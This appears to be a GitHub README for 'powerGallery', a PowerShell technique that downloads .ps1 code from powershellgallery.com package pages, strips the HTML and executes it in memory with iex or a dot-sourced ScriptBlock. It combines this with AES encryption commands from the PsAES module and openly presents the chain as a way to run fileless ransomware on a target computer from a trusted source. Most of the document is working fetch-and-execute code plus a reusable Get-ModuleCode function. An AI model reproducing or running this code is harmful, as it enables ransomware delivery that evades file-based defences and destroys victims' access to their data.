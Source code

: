 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
$u="powershellgallery.com";foreach($m in ([regex]::Matches((irm "$u/packages/PsAES"),'<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'))){([regex]::Matches((irm "$u$($m.Groups[1].Value)"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)}) -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
$u="powershellgallery.com";foreach($m in ([regex]::Matches((irm "$u/packages/PsAES"),'<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'))){([regex]::Matches((irm "$u$($m.Groups[1].Value)"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)}) -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex};$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
$module = 'PsAES'
$mod = "https://www.powershellgallery.com/packages/$module"
$content = Invoke-RestMethod -Uri $mod
$regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
$matches = [regex]::Matches($content, $regex)
$baseURL = "https://www.powershellgallery.com"
foreach ($match in $matches) {
$relativeLink = $match.Groups[1].Value
$fullLink = $baseURL + $relativeLink
([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

```powershell
function Get-ModuleCode {
    param (
        [Parameter(Mandatory)]
        [string]$module
    )

    $mod = "https://www.powershellgallery.com/packages/$module"
    $content = Invoke-RestMethod -Uri $mod
    $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
    $matches = [regex]::Matches($content, $regex)
    $baseURL = "https://www.powershellgallery.com"

    foreach ($match in $matches) {
        $relativeLink = $match.Groups[1].Value
        $fullLink = $baseURL + $relativeLink
        
        # Download and strip HTML
        $decodedCode = ([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value |
                        ForEach-Object { [System.Net.WebUtility]::HtmlDecode($_) }) `
                        -replace '<(?!#)[^>]+>|(?<!<#)>(?![^#])',''
        
        # Turn the string into a ScriptBlock
        $scriptBlock = [ScriptBlock]::Create($decodedCode)
        
        # Dot-source it into the global scope
        . $scriptBlock
    }
}
```

Syntax: 
[You must dot source the function call to get access to the code in the global scope]

```powershell
. Get-ModuleCode -module 'PsAES'
```











